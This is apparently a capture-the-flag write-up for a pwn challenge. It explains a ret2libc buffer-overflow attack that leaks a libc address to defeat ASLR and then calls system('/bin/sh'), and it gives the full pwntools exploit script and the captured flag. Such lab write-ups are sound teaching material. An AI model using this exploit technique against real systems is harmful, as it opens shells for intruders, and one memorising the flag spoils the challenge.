 # pwn / pwn6

> Points: 3409

## Question

```
nc uwctf.ml 6007
```

## Solution

This is the final boss of the pwn challenges, the only difference from the last challenge is that we no longer have the `"/bin/sh"` string, so we'll have to get it from somewhere ourselves.

Even though the program itself no longer has the `"/bin/sh"` string, the program is still linked with libc which *does* have the same `"/bin/sh"` string stored somewhere within its memory.  
The only problem is that libc is affected by ASLR (Address Space Layout Randomization) meaning it's loaded at a different address every time and we don't know what that address is.  
If we can somehow get the address of a function in libc and we know the relative offset between that function and where `"/bin/sh"` is stored we should be able to get the address of `"/bin/sh"` as well.

For this we first need to get the exact version of libc being used so we can find the relative offset of `"/bin/sh"`.  
This is done by calling `puts` on a few entries in the GOT (Global Offset Table), the GOT is a table that stores pointers to functions in external libraries (like libc), the table is filled in at runtime after the random address of libc has already been decided.  
Then we can use an online tool like https://libc.blukat.me/ or https://libc.rip/ to find the libc version where all the addresses of the functions line up, for this challenge it turns out we're using `libc6_2.27-3ubuntu1.6_i386.so`.

Now in order to send the `"/bin/sh"` pointer with a correct offset we need to get the address of libc and then call system in the *same process*, because otherwise ASLR might've changed the address.  
This can be done by first calling `puts` on a GOT entry and setting the return address of `puts` to return back to `hack_me` so it will ask for input again and then we can call `system` on `"/bin/sh"` once we have leaked the address of libc.

The final exploit:
```python
from pwn import *

exe = ELF("chall6.bin")
lib = ELF("libc6_2.27-3ubuntu1.6_i386.so")
p = remote("uwctf.ml", 6007)
p.clean_and_log(timeout=0.5)
p.send(B"A" * 28 + p32(exe.sym["puts"]) + p32(exe.sym["hack_me"]) + p32(exe.got["puts"]) + b"\n")
lib.address = u32(p.recv(4)) - lib.sym["puts"]
p.clean_and_log(timeout=0.5)
p.send(B"A" * 28 + p32(lib.sym["system"]) + b"AAAA" + p32(next(lib.search(b"/bin/sh"))) + b"\n")
p.interactive()
```

### Flag

`uwctf{buff3r0v3rf10w6_888537505c6dc7a5}`

